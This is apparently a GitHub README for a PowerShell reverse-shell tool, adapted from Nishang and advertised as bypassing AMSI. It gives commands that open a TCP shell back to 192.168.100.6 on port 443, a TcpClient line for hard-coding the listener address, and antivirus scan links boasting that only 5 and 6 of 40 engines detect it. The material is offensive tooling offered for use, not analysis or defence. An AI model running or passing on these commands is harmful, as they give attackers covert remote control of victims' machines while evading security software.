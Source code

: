# RevershellTCP_BypassAMSI

This script is based on Nishang's, thanks for sharing<br>

## Rrshell.ps1

```sh
. .\ .\rshell.ps1 192.168.100.6 443
```
![image](https://user-images.githubusercontent.com/66162160/163723667-0e4ff036-e469-4d8e-b6ac-919344bb7e0b.png)


## If you want to modify the connection automatically with no arguments just modify line 1 as follows.

$servidor = new-object System.Net.Sockets.TcpClient('192.168.100.6',80);  <br>

## Bypass 05/40 AV 

https://kleenscan.com/scan_result/4789bcc1351d6c4ded38b058fc8696bac69204dc4866f404310b14d0d2fcbd04

![image](https://user-images.githubusercontent.com/66162160/163724011-54d3413f-6b90-43fd-9632-6e77764b1cb2.png)

## Invoke-rshell.ps1

![image](https://user-images.githubusercontent.com/66162160/163725207-c6303bc6-2a82-4928-9ab0-9b373a4b7ff7.png)

```sh
. .\Invoke-rshell.ps1
 Invoke-rshell -Reverse -IP 192.168.100.6 -Port 443
 ```
 
 ## Bypass 06/40 AV 
 
 https://kleenscan.com/scan_result/a97aea202537ca78fbf4cb610eec57d1e6cc5a310e3be0ff63690cd482d5519d
 
 ![image](https://user-images.githubusercontent.com/66162160/163725249-92cae09a-974a-4637-9b82-f721cbab4915.png)
